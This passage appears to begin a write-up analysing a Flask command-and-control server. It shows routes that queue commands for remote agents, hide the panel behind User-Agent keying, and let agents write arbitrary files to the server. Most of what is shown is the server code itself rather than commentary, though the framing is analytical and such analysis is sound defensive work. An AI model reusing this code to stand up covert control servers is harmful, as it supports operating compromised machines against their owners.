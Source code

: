 ```py
                    command_stack_reset_flag = False
                    msg = f"New commnad to execute: {command_to_execute_next}"
                    app.logger.debug(msg)
                    print(msg)
                    return msg, 200
                else:
                    return "Bad request", 400
            else:
                abort(404)
        else:
            abort(404)
    else:
        abort(404)


@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch_all(path):
    if is_user_agent_keyed(request.headers.get('User-Agent')):
        return flask.render_template("index.html")
    else:
        abort(404)


CORS(app, resources={r"/*": {"origins": "*"}})


if __name__=="__main__":
    app.run(host="0.0.0.0", port=8000)
```

Let's analyze this Flask script!

**`/api/agents/<uid>/download` route:**
```py
@app.route(f'/api/agents/<uid>/download', methods=['POST'])
def post_download(uid):
    if is_user_agent_keyed(request.headers.get('User-Agent')):     
        if uid in live_agents:
            if request.json:
                file = request.json["file"]
                if file in ["app.py", "aggressor.txt"]:
                    abort(404)
                data = request.json["data"]
                f = open(file ,"w")
                f.write(data)
                f.close()
                return "OK", 200
        else:
            return 401
    else:
        abort(404)
```
